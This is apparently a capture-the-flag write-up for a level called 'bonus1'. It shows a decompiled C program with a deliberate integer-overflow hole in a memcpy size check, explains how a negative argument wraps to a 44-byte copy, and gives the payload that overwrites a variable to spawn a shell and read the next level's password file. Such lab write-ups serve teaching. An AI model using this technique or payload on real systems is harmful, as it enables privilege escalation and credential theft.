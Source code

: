 ```C
int32_t main(int32_t argc, char** argv, char** envp)
{
    int32_t number = atoi(argv[1]);
    
    if (number > 9)
        return 1;
    
    void dest;
    memcpy(&dest, argv[2], (size_t)(number * 4));  
    
    if (number == 0x574f4c46)
        execl("/bin/sh", "sh", 0);
    
    return 0;
}

```

- We want to pass throug the first condition. We can put a number smaller than 9. Even if this number will determine how much bytes will be copied into dest by memcpy, we can put a negative number since it's third parameter takes a size_t, it will implicitly be casted.
- A good number to take would be -2147483637 because: (size_t)(-2147483637 * 4) = 44.
- Number is 40 bytes from number so we can copy 40 bytes, then overwrite number with 0x574f4c46 ("FLOW" in ascii)

```bash
payload = ./bonus1 -2147483637 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFLOW

$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```